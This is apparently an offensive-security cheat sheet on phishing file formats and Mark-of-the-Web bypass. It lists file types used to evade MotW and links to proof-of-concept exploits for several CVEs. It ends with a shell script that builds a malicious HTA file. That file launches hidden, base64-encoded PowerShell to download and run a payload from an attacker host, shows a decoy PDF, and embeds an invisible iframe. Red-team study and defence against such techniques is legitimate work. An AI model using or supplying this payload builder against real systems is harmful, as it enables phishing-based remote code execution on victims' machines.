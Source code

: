 Low risk file extension to bypass MotW

* (password protected) compressed files `.7z` or `.zip`
* Batch files `.cmd` or `.bat` like batchgotAdmin-fixed.bat tool
* Executeable file disguised as Windows screen saver file `.scr`
* VBScript manipulated signed `.msi` installers like [Atera Software](https://www.atera.com/) disguised as `MSI` installer [CVE-2020-1599](https://blog.virustotal.com/2022/01/monitoring-malware-abusing-cve-2020-1599.html)
* VBScript or JSscript signed executeables `exe, dll` like [MSHTA to run VBScript](https://redcanary.com/threat-detection-report/techniques/mshta/) found by [Checkpoint ZLoader](https://research.checkpoint.com/2022/can-you-trust-a-files-digital-signature-new-zloader-campaign-exploits-microsofts-signature-verification-putting-users-at-risk/)

```pwsh
# Read MotW (Mark of the Web) Info
# ZoneId=3 is the internet
Get-Content path/to/file -Stream Zone.Identifier
notepad {name of file}:Zone.Identifier

# Bypass MotW using URL files to exploit MotW e.g. CVE-2022-41091
firefox https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-41091
```

## Assess Threats from Malicious Files

This is an example of what file formats are used by phishing attacks.

```shell
# Expoit RTF parser of WORD for RCE e.g. CVE-2023-21716
firefox https://github.com/JMousqueton/CVE-2023-21716/blob/main/POC-CVE-2023-21716.py

# Exploit PDF viewer of Acrobat for RCE e.g. CVE-2023-21608
firefox https://github.com/hacksysteam/CVE-2023-21608

# Exploit CSRF Vulnerability in AutoGPT e.g. CVE-2024-1879
firefox https://huntr.com/bounties/125c2d0c-0481-4e5c-ae90-fec263acdf32

# Exploit NTLMv2 Auth utilizing compressed HTML with SMB link to a file
firefox https://www.proofpoint.com/uk/blog/threat-insight/ta577s-unusual-attack-chain-leads-ntlm-data-theft
```

### Create Malicious HTA files

* Nishang Framework <https://github.com/samratashok/nishang/blob/master/Client/Out-HTA.ps1>
* Unicorn Tool <https://github.com/trustedsec/unicorn>

```shell
# Set DownLoadString from exploit/multi/script/web_delivery 
ps="iex (New-Object Net.WebClient).DownloadString('http//ATTACKER-IP/InHFgoM77v6ck')" encode="`echo $ps | iconv --to-code UTF-16LE | base64 -w 0`" echo -e "####HTA FILE####\n" echo "<script>" echo 'a=new ActiveXObject("WScript.Shell");' echo "a.run('%windir%\\\\System32\\\\cmd.exe /c powershell.exe -nop -w hidden -enc $encode');" echo 'a.run("http://www.companyname.com/legit.pdf")'; echo "window.close();" echo "</script>" echo -e "\n ####IFRAME####\n" echo '<iframe id="frame" src="CHANGEME.hta" application="yes" width=0 height=0 style="hidden" frameborder=0 marginheight=0 marginwidth=0 scrolling=no>></iframe>' 
```
